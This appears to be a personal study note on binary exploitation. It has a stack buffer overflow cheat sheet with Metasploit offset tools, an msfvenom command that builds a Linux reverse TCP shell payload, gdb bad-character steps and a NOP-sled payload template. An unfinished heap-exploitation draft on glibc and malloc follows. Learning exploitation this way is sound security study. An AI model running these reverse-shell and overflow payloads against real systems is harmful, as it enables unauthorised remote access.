 ```bash
# Offset
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l $SIZE > pattern.txt
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $ADDRESS

# Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

# Identifying bad characters (step by step - iterative process)
(gdb) run $(python -c 'print "\x90" * (offset_len - 256) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')

(gdb) x/2000xb $esp+500

# proc info
(gdb) i proc all

# Find a return address
(gdb) x/2000xb $esp+1400

# Final
(gdb) run $(python -c 'print "\x55" * (offset_len - NOP_len - shellcode_len) + "\x90" * NOP_len + "shellcode" + "return address in little endian"')
```

`for i in $(cat len.txt); do ./bin $(python -c "print('A' * $i)"); done`

___

**Data Execution Prevention** (`DEP`) is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

___

## Heap exploitation draft

First documented heap exploit around the 2000s:

- <http://phrack.org/issues/66/6.html>

### Intro

#### GLIBC

**GLIBC**, often shortened to **libc**, stands for Gnu C Library (open source)
    + shared object _(linux equivalent to Windows **DLL** ?)_

> Alternative C library implementations exist such as `musl` or `uclibc`

On an average Linux distro, is it possible to find a process that doesn't map a GLIBC shared object into memory.

Command | Description                                                          |
--------|----------------------------------------------------------------------|
`ldd`   | list dynamic dependencies (shared objects) that a binary relies upon |

`*.so` &rarr; shared objects

> ABI versioning convention = **soname**. Increment over the years

Generally linux operating systems are distributed with a specific version of GLI which will not change for the support period.

**Tip**: we can run libc.so to figure out which version is used and what version of `gcc` it was compiled with:

```console
amirr0r@os:~/notes$ /lib/x86_64-linux-gnu/libc.so.6 
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

#### `malloc()`

`malloc()` is a dynamic memory allocator function included in the **GLIBC**.

He distributes "**chunks**" of the heap (pieces from memory).

> `C++` **wrappers**: `new()`, `delete()`, `make_shared()`, `make_unique()`.

Basic operations like starting a new thread, opening a file, dealing with I/O rely on `malloc()` under the hood.

Unlike programming langages such as `Rust`, memory corruption is still an issue for `C`/`C++`... 

> This type of vulnerability can lead to info leak, denial of service or even arbitrary code execution. 

[**LiveOverflow**: what does `malloc()` do?](https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=26)

___

### Exploitation techniques

#### House of Force
#### House of Orange
#### House of Spirit
#### House of Lore
#### House of Einherjar
#### House of Rabbit
#### Poison Null Byte
#### House of Corrosion
#### Fastbin Dup
#### Unsafe Unlink
#### Safe Unlink
#### Unsortedbin Attack
#### Tcache Dup